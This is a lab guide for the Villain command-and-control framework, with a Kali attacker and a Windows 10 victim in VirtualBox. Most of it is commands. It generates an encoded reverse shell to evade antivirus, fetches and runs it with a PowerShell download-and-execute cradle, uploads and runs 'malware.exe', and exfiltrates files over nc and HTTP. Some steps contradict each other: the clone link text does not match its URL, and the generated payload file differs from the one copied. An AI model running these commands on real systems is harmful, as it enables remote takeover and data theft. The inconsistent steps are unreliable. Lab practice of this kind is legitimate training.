 # Simple Villain Framework Lab Guide

A step-by-step lab using **Kali Linux** (attacker) and **Windows 10** (victim) in VirtualBox, from payload gen to file transfers.

---

## 1. VirtualBox VM & Networking Setup

1. **Create VMs** in VirtualBox:

   * **Kali Linux**
   * **Windows 10**
2. **Set both adapters** to an **Internal Network** (or Host-Only) named `LabNet`.
3. **Assign static IPs** on the same `/24` subnet:

   * **Kali** (terminal):

     ```bash
     sudo ip addr add 192.168.56.10/24 dev eth0
     sudo ip link set eth0 up
     ```
   * **Windows 10** (Control Panel → Network Adapter → IPv4 settings):

     ```text
     IP address:    192.168.56.20
     Subnet mask:   255.255.255.0
     Gateway/DNS:   (leave blank)
     ```
4. **Verify connectivity**:

   ```bash
   # On Kali
   ping 192.168.56.20
   ```

   You should see replies.

---

## 2. Prepare Kali Attacker

1. **Update & upgrade**:

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Clone Villain**:

   ```bash
   git clone [https://github.com/yourusername/Villain.git](https://github.com/keralahacker/Villain.git)
   cd Villain
   ```

   > If GitHub is blocked (e.g. college Wi‑Fi), use a VPN or your phone’s hotspot.
3. **(Optional) Install Python deps**:

   ```bash
   pip install -r requirements.txt
   ```

   If it fails, skip to next step.
4. **Start Villain**:

   ```bash
   python villain.py
   ```

   You’ll see the `villain>` prompt.

---

## 3. Build & Deliver Your Payload

### 3.1 Generate the reverse shell

```
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP_or_interface> [encode|obfuscate]
```

| Element       | Meaning                      | Example                   |
| ------------- | ---------------------------- | ------------------------- |
| `OS`          | Target OS family             | `windows`                 |
| `handler`     | Connection type              | `reverse_tcp` (stable)    |
| `template`    | Payload script               | `powershell`              |
| `lhost`       | Your Kali IP or interface    | `192.168.56.10` or `eth0` |
| `[encode]`    | Simple Base64-style encoding | optional (helps evade AV) |
| `[obfuscate]` | String-twisting for stealth  | optional                  |

**Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This writes `payload.ps1` for the Windows VM.

### 3.2 Host & run the payload

1. **On Kali**, serve it over HTTP:

   ```bash
   cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
   cd ~
   python3 -m http.server 8000
   ```
2. **On Windows 10** (PowerShell as Admin):

   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
   ```

   This runs the reverse shell back to Kali.

---

## 4. Catch & Use Your Shell

1. **List sessions**:

   ```bash
   villain> sessions
   ```
2. **Enter the shell**:

   ```bash
   villain> shell <SESSION_ID>
   ```

   You get a `PS C:\>` prompt. Use `exit` or Ctrl+C to return.

---

## 5. Uploading Files to the Victim

```
villain> upload <local_path_on_kali> <remote_path_on_windows>
```

* **Example:**

  ```bash
  villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
  ```
* Then inside your shell:

  ```powershell
  PS C:\> & 'C:\Users\Public\malware.exe'
  ```

---

## 6. Downloading Files from the Victim

Villain has no built-in “download,” but you can exfiltrate:

1. **On Kali**, listen:

   ```bash
   nc -lvp 9001 > secret.txt
   ```
2. **In Windows shell:**

   ```powershell
   PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
   ```

Alternatively, spin up an HTTP server on Windows:

```powershell
PS C:\Users\Public> python3 -m http.server 8000
```

Then on Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7. Cleaning Up & Tips

* **flee**: Exit without killing sessions:

  ```bash
  villain> flee
  ```
* **purge**: Wipe saved implant metadata:

  ```bash
  villain> purge
  ```

**Pro Tips:**

* Verify your **lhost** and subnet before generating.
* Use `backdoors` to list re-usable payloads.
* Keep Kali’s firewall off on the lab network.

---

## 8. Broadcast Messages with `#`

You can send a chat message to all connected sibling servers by prefixing with `#`:

```bash
villain> # Hey team, switch to backup C2 channel
```

---

That’s the full lab: network setup, payload gen, shell, file IO, and messaging. Enjoy your ethical testing!
